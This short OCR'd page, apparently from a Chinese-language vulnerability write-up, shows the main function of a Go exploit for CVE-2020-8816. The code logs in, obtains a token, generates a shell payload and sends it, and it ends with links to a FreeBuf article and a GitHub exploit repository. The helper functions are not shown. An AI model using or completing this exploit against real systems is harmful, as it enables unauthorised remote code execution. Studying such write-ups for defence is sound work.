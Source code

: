 
    func main(){
        options := extractFlags()
        HOST = options.host
        URL = options.url
        PORT = options.port
        PASSWD = options.password 
        session := grequests.NewSession(nil)
        doLogin(session)
        log.Println("Getting Token...")
        token := getToken(session)
        log.Println("Token:",token)
        log.Println("Generating payload...")
        payload := generate_shell()
        log.Println("Payload generated:",payload)
        log.Println("Sending exploit...")
        Exploit(session, token, payload)
        log.Println("Exploit executed, check your session")
    }

参考链接
--------

> https://www.freebuf.com/vuls/234533.html
>
> https://github.com/team0se7en/CVE-2020-8816/blob/master/CVE-2020-8816.go
